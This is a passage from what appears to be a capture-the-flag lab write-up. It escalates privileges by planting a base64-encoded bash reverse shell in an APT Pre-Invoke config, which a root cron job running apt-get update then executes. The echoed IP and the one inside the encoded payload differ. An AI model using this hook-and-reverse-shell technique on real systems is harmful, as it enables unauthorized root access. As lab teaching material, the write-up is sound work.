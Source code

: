 After about a minute, it’s there:

```

2021/12/02 17:28:02 CMD: UID=0    PID=59847  | /bin/sh -c /usr/bin/apt-get update

```

It seems to be running every two minutes.

The other crons:
- Remove any files in `/etc/apt/apt.conf.d` that are older than one minute every two minutes.
- Reset the `disclaimer` script back to what it was every two minutes.
- Reset the `master.cf` file every two minutes.
- Reset the v2 writer project folder from a copy in root every two minutes, and re-run the server.
- Clear `/tmp` every minute.

### Shell

The [GTFObins page](https://gtfobins.github.io/gtfobins/apt-get/) for `apt-get` shows that it can be abused by setting a Pre-Invoke script. For example, with `sudo`:

```

sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh

```

The same thing can be added to a config file:

```

apt::Update::Pre-Invoke {"command";};

```

I’ll create a base64 encoded reverse shell:

```

oxdf@parrot$ echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.6/443 0>&1"' | base64 -w0
L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTMvNDQzIDA+JjEiCg==

```

And add that to a config file:

```

john@writer:/etc/apt/apt.conf.d$ echo 'apt::Update::Pre-Invoke {"echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTMvNDQzIDA+JjEiCg== | base64 -d | bash"};' > 000-shell

```

I’ll be sure to keep an eye out for the time, as it seems like the cron could remove my config before it gets used if I add it with more than a minute to go until the next run.

The next time it runs, I get a shell:
